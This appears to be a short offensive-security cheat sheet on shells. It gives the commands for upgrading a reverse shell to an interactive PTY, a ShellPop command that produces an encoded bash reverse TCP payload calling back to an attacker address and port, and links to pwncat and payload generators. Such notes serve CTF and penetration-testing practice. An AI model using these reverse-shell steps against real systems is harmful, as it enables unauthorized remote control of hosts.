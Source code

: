# Shells




## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Or
$ script -q /dev/null sh

user@remote:~$ ^Z
(background)

root@kali:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
(get ROWS and COLS)

root@kali:~$ stty raw -echo; fg

(opt) user@remote:~$ reset

user@remote:~$ stty rows ${ROWS} cols ${COLS}

user@remote:~$ export TERM=xterm
(or xterm-color or xterm-256color)

(opt) user@remote:~$ exec /bin/bash [-l]
```




## Tools

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)


### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP:

```
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```



### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)
